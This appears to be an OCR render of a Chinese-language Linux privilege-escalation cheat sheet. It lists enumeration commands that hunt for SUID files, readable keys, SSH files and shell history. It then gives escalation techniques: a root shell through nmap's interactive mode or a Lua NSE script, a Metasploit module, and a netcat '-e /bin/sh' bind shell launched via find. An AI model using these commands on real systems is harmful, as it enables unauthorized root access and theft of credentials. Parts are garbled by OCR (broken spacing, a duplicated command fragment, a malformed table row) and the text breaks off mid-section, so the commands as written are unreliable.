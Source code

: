 <table><thead><tr><th><strong>命令</strong></th><th><strong>结果</strong></th><th><br></th><th><br></th><th><br></th></tr></thead><tbody><tr><td>find / -perm -4000 -type f 2&gt;/dev/null</td><td>查找 SUID 文件</td><td><br></td><td><br></td><td><br></td></tr><tr><td>find / -uid 0 -perm -4000 -type f 2&gt;/dev/null</td><td>查找 root 拥有的 SUID 文件</td><td><br></td><td><br></td><td><br></td></tr><tr><td>find / -perm -2000 -type f 2&gt;/dev/null</td><td>查找 SGID 文件（粘性位）</td><td><br></td><td><br></td><td><br></td></tr><tr><td>find / ! -path “<em>/proc/</em>“-perm -2 -type f -print 2&gt;/dev/null</td><td>查找世界可写文件，不包括 proc 文件</td><td><br></td><td><br></td><td><br></td></tr><tr><td>find / -type f ‘(‘ -name&nbsp;<em>.cert -or -name&nbsp;</em>.crt -or -name&nbsp;<em>.pem -or -name&nbsp;</em>.ca -or -name&nbsp;<em>.p12 -or -name&nbsp;</em>.cer -name&nbsp;<em>.der ‘)’ ‘(‘ ‘(‘ -user support -perm -u=r ‘)’ -or ‘(‘ -group support -perm -g=r ‘)’ -or ‘(‘ -perm -o=r ‘)’ ‘)’ 2&gt; /dev/null-or -name&nbsp;</em>.cer -name *.der ‘)’ 2&gt; /dev/null</td><td>查找您可以阅读的密钥或证书</td><td><br></td><td><br></td><td><br></td></tr><tr><td>find /home –name *.rhosts -print 2&gt;/dev/null</td><td>查找 rhost 配置文件</td><td><br></td><td><br></td><td><br></td></tr><tr><td>find /etc -iname hosts.equiv -exec ls -la {} 2&gt;/dev/null ; -exec cat {} 2&gt;/dev/null ;</td><td>查找 hosts.equiv，列出权限并管理文件内容</td><td><br></td><td><br></td><td><br></td></tr><tr><td>cat ~/.bash_history</td><td>显示当前用户历史记录</td><td><br></td><td><br></td><td><br></td></tr><tr><td>ls -la ~/.*_history</td><td>向当前用户分发各种历史文件</td><td><br></td><td><br></td><td><br></td></tr><tr><td>ls -la ~/.ssh/</td><td>检查当前用户的 ssh 文件</td><td><br></td><td><br></td><td><br></td></tr><tr><td>find /etc -maxdepth 1 -name ‘<em>.conf’ -type f 要么 ls -la /etc/</em>.conf</td><td>在 / etc 中列出配置文件（深度 1，在第一个命令中修改 maxdepth 参数以对其进行更改）</td><td><br></td><td><br></td><td><br></td></tr><tr><td>lsof</td><td>grep ‘/home/\</td><td>/etc/\</td><td>/opt/‘</td><td>显示可能有趣的打开文件</td></tr></tbody></table>

也可以使用 sudo -l 命令列出当前用户可执行的命令

### 常用提权方式

**nmap**

find / -perm -u = s -type f 2> / dev / null –查找设置了 SUID 位的可执行文件

ls -la / usr / local / bin / nmap –让我们确认 nmap 是否设置了 SUID 位。

Nmap 的 SUID 位置 1。很多时候，管理员将 SUID 位设置为 nmap，以便可以有效地扫描网络，因为如果不使用 root 特权运行它，则所有的 nmap 扫描技术都将无法使用。

但是，nmap（2.02-5.21）存在交换模式，可利用提权，我们可以在此模式下以交互方式运行 nmap，从而可以转至 shell。如果 nmap 设置了 SUID 位，它将以 root 特权运行，我们可以通过其交互模式访问’root’shell。

nmap –interactive –运行 nmap 交互模式！sh –我们可以从 nmap shell 转到系统 shell

**msf** 中的模块为：

exploit/unix/local/setuid_nmap

**较新版可使用 —script 参数：**

echo “os.execute(‘/bin/sh’)” > /tmp/shell.nse && sudo nmap —script=/tmp/shell.nse

**find**

touch test

**nc** **反弹 shell：**

find test -exec netcat -lvp 5555 -e /bin/sh \;

**vi/vim**

Vim 的主要用途是用作文本编辑器。但是，如果以 SUID 运行，它将继承 root 用户的权限，因此可以读取系统上的所有文件。

打开 vim, 按下 ESC
